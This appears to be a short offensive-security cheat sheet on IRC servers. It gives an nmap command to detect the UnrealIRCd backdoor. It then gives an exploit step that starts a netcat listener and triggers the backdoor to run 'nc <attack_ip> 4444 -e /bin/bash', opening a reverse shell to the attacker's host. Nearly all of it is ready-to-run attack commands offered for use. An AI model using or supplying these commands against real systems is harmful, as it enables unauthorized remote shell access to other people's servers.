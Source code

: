 Internet Relay Chat (IRC) is a real-time text messaging protocol that enables communication between internet-connected computers

## Scanning
The following scripts detects if the IRC port is backdoored

Vulnerability Scan
```bash
nmap -p6697,8067,65534 — script=irc-unrealircd-backdoor <target>
```

## Exploit
If there is a backdoor, we can catch a reverse shell

Exploit
```bash
nc -lvnp 4444
nmap -d -Pn -p<port> — script=irc-unrealircd-backdoor.nse — script-args=irc-unrealircd-backdoor.command='nc <attack_ip> 4444 -e /bin/bash' <victim_ip>
```

